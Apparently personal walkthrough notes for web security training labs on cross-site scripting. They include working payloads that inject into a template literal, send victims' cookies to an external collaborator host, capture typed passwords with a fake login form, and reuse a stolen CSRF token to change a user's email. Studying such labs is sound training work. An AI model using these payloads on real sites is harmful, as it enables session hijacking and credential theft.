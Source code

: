 # Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
1. Search function
2. Submitted data is reflected inside a JavaScript template literal (this was identified because our data appears inside backticks)
3. Submit a payload with a `${...}` syntax
```
GET /?search=xsstesting${alert(document.domain)}
```
# Exploiting cross-site scripting to steal cookies
1. View post
2. Submit basic XSS payload in each field and see that "comment" is vulnerable to basic XSS payload
3. Post a comment that will inject a script tag that will send the victim's cookies to our URL
```
comment=<script>var i=new Image; i.src="https://3x16xmbwqvg1d4jy9hdyf01iv910pqdf.oastify.com/?c=" document.cookie;</script>
```
4. Check collaborator
5. Use collected session cookie and replace your own to take over the administrator's session
# Exploiting cross-site scripting to capture passwords
1. View post
2. Basic XSS payload executes in the "comment" field
3. Use the following payload to create a login form which will detect if any data is entered and send it to your collaborator domain
```html
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
4. Check collaborator for credentials
# Exploiting XSS to bypass CSRF defenses
- Solve the lab by changing the email address of another user
1. We can login and change our email address
2. Viewing a post we can submit comments and confirm that the comment field is vulnerable to stored XSS
3. Submit a comment with the following payload
```html
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;

var data = new FormData();
data.append('csrf', token)
data.append('email', 'pwn@hacked.lol');

fetch('/my-account/change-email', {
	method: 'POST',
	mode: 'no-cors',
	body: data
	});
});
</script>
```
- This will collect the CSRF token then submit a fetch request to change the victim's email address